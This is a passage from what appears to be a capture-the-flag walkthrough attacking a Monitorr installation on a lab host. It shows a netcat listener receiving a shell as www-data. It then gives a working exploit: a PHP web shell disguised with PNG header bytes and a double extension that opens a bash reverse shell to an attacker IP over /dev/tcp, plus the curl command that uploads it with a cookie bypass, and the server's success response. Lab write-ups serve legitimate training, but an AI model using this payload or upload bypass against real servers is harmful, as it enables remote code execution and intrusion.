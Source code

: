 ```bash
listening on [any] 443 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.186.203] 57300
bash: cannot set terminal process group (895): Inappropriate ioctl for device
bash: no job control in this shell
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ whoami
whoami
www-data
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ pwd
pwd
/var/www/monitorr/assets/data/usrimg
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ 
```

> **Another Reverse Shell Method for Monitorr Exploit**
> 

`echo -e $'\\x89\\x50\\x4e\\x47\\x0d\\x0a\\x1a\\n<?php echo system(\'bash -c "bash -i >& /dev/tcp/10.8.24.219/443 0>&1"\');?>' > shell.png.pHp`

`curl -k -F "fileToUpload=@./shell.png.pHp" 'https://monitorr.robyns-petshop.thm/assets/php/upload.php' -H "Cookie: isHuman=1"`

```bash
<div id='uploadreturn'>File shell.png.pHp is an image: <br><div id='uploadok'>File shell.png.pHp has been uploaded to: ../data/usrimg/shell.png.php</div></div> 
```

![image.png](image%203.png)
